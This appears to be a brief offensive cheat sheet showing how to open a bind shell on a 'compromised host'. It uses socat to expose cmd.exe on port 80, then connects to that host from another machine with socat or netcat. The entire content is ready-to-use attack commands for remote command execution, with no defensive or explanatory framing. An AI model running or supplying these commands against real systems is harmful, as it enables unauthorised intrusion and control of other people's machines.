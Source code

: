# 1) spawn bind shell on compromised host
```bat
set LPORT=80
socat TCP4-LISTEN:%LPORT%,fork EXEC:cmd.exe,pipes
```

# 2) Connect to remote bind shell
```sh
RHOST=192.168.202.10
RPORT=80
socat - TCP4:$RHOST:$RPORT
```

or

```sh
RHOST=192.168.202.10
RPORT=80
nc -nv $RHOST $RPORT
```

